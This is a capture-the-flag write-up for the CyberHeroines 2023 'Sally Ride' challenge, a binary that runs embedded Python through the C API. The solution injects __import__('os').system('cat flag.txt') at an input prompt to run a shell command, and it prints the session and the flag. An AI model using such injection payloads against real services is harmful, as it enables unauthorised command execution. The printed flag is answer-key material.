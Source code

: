 # CyberHeroines 2023

## Sally Ride

> [Sally Kristen Ride](https://en.wikipedia.org/wiki/Sally_Ride) (May 26, 1951 – July 23, 2012) was an American astronaut and physicist. Born in Los Angeles, she joined NASA in 1978, and in 1983 became the first American woman and the third woman to fly in space, after cosmonauts Valentina Tereshkova in 1963 and Svetlana Savitskaya in 1982. She was the youngest American astronaut to have flown in space, having done so at the age of 32. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Sally_Ride)
> 
> Chal: I asked ChatGPT to build this binary to honor my hero, the [first American woman](https://www.youtube.com/watch?v=jwu-zSdNiLI) in space, but its broken and I cannot seem to figure out why. Connect to `0.cloud.chals.io 10568` and help me return the flag.
>
>  Author: [TJ](https://www.tjoconnor.org/)
>
> [`chal.bin`](chal.bin)

Tags: _pwn_

## Solution
We are getting a binary for this challenge. Lets see what's going on. The `main` is very short. It uses the [`Python/C API`](https://docs.python.org/3/c-api/index.html) to execute embedded python. 

```c
undefined8 main(void)
{
  logo();
  Py_Initialize();
  PyRun_SimpleStringFlags
            ("def main():\n    superhero_name = input(\"Who is your hero >>> \")\n    print(\"Your hero name is:\", superhero_name)\n\nif __name__ == \"__main__\":\n    main()\n"
             ,0);
  Py_Finalize();
  return 0;
}
```

The embedded python script is also where short. Interestingly with the input prompt we have the possibility to inject python code.

```python
def main():
    superhero_name = input("Who is your hero >>> ")
    print("Your hero name is:", superhero_name)
    
if __name__ == "__main__":
    main()
```

What we can do is to input `__import__('os').system('cat flag.txt')` as superhero name and python will happily execute this code and print the flag out.

```bash
$ nc 0.cloud.chals.io 10568
--------------------------------------------------------------------------------

                             WWWWNNXXXXXXXXXXNNWWW
                        WWNXK0OkkxxxxddddddxxxxkkO0KXNWW
                    WWXK0kxddddddddddddddddddddddddddxk0KXWW
                 WWX0kxddddddddddddddddddddddddddddddddddxk0XWW
               WX0kxddddddddddddddddddddddddddddddddddddddddxk0XW
             WXOxddddddddddddddddddddddddddddddddddddddddddddddxOXW
           WXOxdddddddddddddddddddddddxxxxdddddddddddddddddddddddxOXW
          N0xdddddddddddddddddddxk0KKXXXXXXKK0kxdddddddddddddddddddx0N
        WXkddddddddddddddddddxOKNW            WNKOxddddddddddddddddddkXW
       WKxdddddddddddddddddxOXWW                 WXOxdddddddddddddddddxKW
      W0xdddddddddddddddddkKW        WWWWWW        WKkdddddddddddddddddx0W
     W0xdddddddddddddddddxKW      WX0OkkkkO0XW      WKkdddddddddddddddddx0W
    WKxdddddddddddddddddx0W     WNOxddddddddxON      W0xdddddddddddddddddxKW
   WXkddddddddddddddddddkXWW   WNOddddddddddddON      XkddddddddddddddddddkN
   W0xddddddddddddddddddxO000000OxddddddddddddkXW     Xkddddddddddddddddddx0W
   NkdddddddddddddddddddddddddddddddddddddddddON      XkdddddddddddddddddddON
   XxdddddddddddddddddddddddddddddddddddddddxOXW     W0xdddddddddddddddddddxX
  WKxdddddddddddddddddddddddddddddddddddddk0XW      WXkddddddddddddddddddddxKW
  W0xdddddddddddddddddddddddddddddddddxO0KNW       WKkdddddddddddddddddddddd0W
  W0xddddddddddddddddddddddddddddddddkKW         WXOxddddddddddddddddddddddx0W
  WKxdddddddddddddddddddddddddddddddONW       WNKOxddddddddddddddddddddddddxKW
   XkddddddddddddddddddddddddddddddkXW      WX0kdddddddddddddddddddddddddddkX
   NOdddddddddddddddddddddddddddddd0W      WKkdddddddddddddddddddddddddddddON
   WKxdddddddddddddddddddddddddddddkKKKXXKKKOdddddddddddddddddddddddddddddxKW
    N0xddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddx0N
     NOddddddddddddddddddddddddddddxkkkkkkkkxddddddddddddddddddddddddddddON
     WXkddddddddddddddddddddddddddd0NWWWWWWN0dddddddddddddddddddddddddddkXW
      WXkdddddddddddddddddddddddddd0W      W0ddddddddddddddddddddddddddOXW
       WNOxdddddddddddddddddddddddd0W      W0ddddddddddddddddddddddddxONW
         WKkdddddddddddddddddddddddOXXXXXXXXOdddddddddddddddddddddddkKW
          WXOxddddddddddddddddddddddxxxxxxxxddddddddddddddddddddddxOXW
            WXOxddddddddddddddddddddddddddddddddddddddddddddddddxOXW
              WX0kddddddddddddddddddddddddddddddddddddddddddddk0XW
                WNKOxddddddddddddddddddddddddddddddddddddddxOKNW
                   WNK0kxddddddddddddddddddddddddddddddxk0KNW
                      WWNK0OkxxddddddddddddddddddxxkO0KNWW
                           WWNXKK00OOOOOOOOOO00KKXNWW
                                     WWWWWW

--------------------------------------------------------------------------------
 I would like to be remembered as someone who was not afraid to do what
 she wanted to do, and as someone who took risks along the way in order to
 achieve her goals. - Dr. Sally Ride
--------------------------------------------------------------------------------
Who is your hero >>> __import__('os').system('cat flag.txt')
chctf{u_cant_B_Wh4t_u_caNT_S33}
('Your hero name is:', 0)
```

Flag `chctf{u_cant_B_Wh4t_u_caNT_S33}`